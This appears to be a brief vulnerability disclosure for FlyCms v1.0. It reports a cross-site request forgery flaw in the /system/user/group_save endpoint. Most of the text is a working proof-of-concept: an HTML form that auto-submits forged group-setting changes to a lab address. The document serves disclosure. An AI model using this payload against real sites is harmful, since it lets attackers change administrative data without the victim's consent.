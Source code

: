 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/user/group_save

![1](https://github.com/ysuzhangbin/cms2/assets/27912238/94163678-8458-4088-b378-422723cac58c)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/user/group_save" method="POST">
      <input type="hidden" name="groupName" value="cs" />
      <input type="hidden" name="discount" value="1" />
      <input type="hidden" name="minexp" value="1" />
      <input type="hidden" name="maxexp" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/ysuzhangbin/cms2/assets/27912238/1cadd896-3f0b-49e9-99c8-589c737aa741)


Successed

![3](https://github.com/ysuzhangbin/cms2/assets/27912238/499050be-04d2-4b98-ba38-55782452ec7c)

